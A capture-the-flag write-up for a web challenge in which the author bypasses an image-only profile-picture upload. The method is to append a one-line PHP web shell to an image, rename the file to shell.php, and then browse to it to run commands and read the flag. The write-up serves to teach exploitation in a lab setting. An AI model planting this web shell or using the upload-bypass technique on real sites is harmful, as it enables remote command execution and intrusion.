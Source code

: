 # GnomeArena: Rock Paper Scissors (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))

![alt text](1.png "Chall")

This challenge is a rock paper scissor challenge.

![alt text](2.png "Chall")

The game did not seem exploitable. But at the right corner we see a settings page.

![alt text](3.png "Chall")

At the settings page we can upload a new profile picture. We can also set a new name for our account.

![alt text](4.png "Chall")

Here is our goal:
* Upload a file containing PHP code
* Find the directory where the files are stored.
* Figure out a way to run the uploaded file as PHP code.

Questions I always ask myself when dealing with these kind of challenges:
* What kind of file extensions does the server allow?
* Can I find the uploaded file?
* Can I spoof the MIME header?
* etc ...

TL;DR answer to these questions.

    I can only upload image files.
    All other files seem to be blocked.
    I can control the name + extension of the uploaded file with the rename "name" functionality.


### Exploiting the file upload

* Create a small image. I used a 1x1 black pixel as image.
* Append PHP backdoor shell at the end of the image. I used VIM for this.
    ```
    <?php system($_GET['cmd']); ?>  
    ```
* Upload image to website as any filename.
* Rename `name` to shell.php
* Right click image and `Copy Image Source`
* Visit that address and we should have shell.

    ![alt text](6.png "Chall")

    And now get the flag with `cat` command.

    ![alt text](7.png "Chall")
